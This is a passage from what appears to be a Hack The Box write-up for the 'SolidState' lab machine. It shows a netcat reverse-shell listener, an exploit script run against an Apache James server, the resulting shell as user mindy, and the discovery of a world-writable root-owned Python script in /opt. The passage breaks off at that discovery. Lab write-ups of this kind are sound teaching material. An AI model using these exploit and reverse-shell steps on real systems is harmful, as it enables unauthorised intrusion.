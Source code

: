 ```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

And run the exploit.

```bash
$ python 35513.py solidstate.htb   
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Now if we login as `mindy` again:

```bash
$ ssh mindy@solidstate.htb
```

We will receive a reverse shell connection on our listener as `mindy`. However, our shell is no longer restricted!

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.51] 43388
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

# Enumeration (2)

Without much enumeration, I found some interesting files in `/opt`.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -al /opt
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  318 Jan 14 09:26 tmp.py
```

A file called `tmp.py` is owned by `root` and we can write to it! Lets check the contents.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

